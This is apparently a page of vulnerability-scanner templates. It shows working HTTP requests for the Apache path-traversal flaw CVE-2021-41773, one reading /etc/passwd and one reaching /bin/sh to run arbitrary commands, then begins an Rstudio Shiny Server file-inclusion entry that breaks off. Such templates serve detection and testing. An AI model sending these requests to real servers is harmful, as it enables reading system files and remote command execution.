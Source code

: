 ## Requests

### Step - 1

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}

```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-41773-POC

---

# Rstudio Shiny Server \<1.5.16 - Local File Inclusion

## Description

- Rstudio Shiny Server prior to 1.5.16 is vulnerable to local file inclusion and source code leakage. This can be exploited by appending an encoded slash to the URL.
- severity - medium
- tags - cve,cve2021,rstudio,traversal

## Requests

- Method - GET

### URL
